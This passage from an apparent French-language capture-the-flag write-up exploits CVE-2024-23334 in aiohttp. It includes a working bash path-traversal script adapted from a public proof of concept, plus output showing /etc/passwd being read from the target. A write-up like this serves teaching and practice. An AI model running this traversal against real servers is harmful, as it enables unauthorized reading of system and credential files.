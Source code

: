```html
    }


    </style>
</head>
```

En recherchant des informations sur `aiohttp`, nous trouvons des vulnérabilités, notamment le [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC) qui permet de tester différentes façons d'accéder à des fichiers. Nous copions le contenu du fichier `exploit.sh` sur le serveur sous `/tmp/.test/test.sh` et nous le modifions pour qu'il se connecte au port 8080 et non 8081, et qu'il prenne le dossier `/assets/` comme point de départ (dossier trouver lors du `curl` au-dessus) et non `/static/` comme dans la PoC.

Ce qui donne :

```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

Le test est concluant, nous parvenons à récupérer le contenu du fichier cible :

```bash
bash test.sh 
[+] Testing with /assets/../etc/passwd
	Status code --> 404
[+] Testing with /assets/../../etc/passwd
	Status code --> 404
[+] Testing with /assets/../../../etc/passwd
	Status code --> 200
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...expurgé pour brièveté...]
```

Pour terminer ce défi, deux choix s'offre à nous : récupérer le flag root directement via cette exploitation, ou essayer d'obtenir des identifiants root sur la machine.

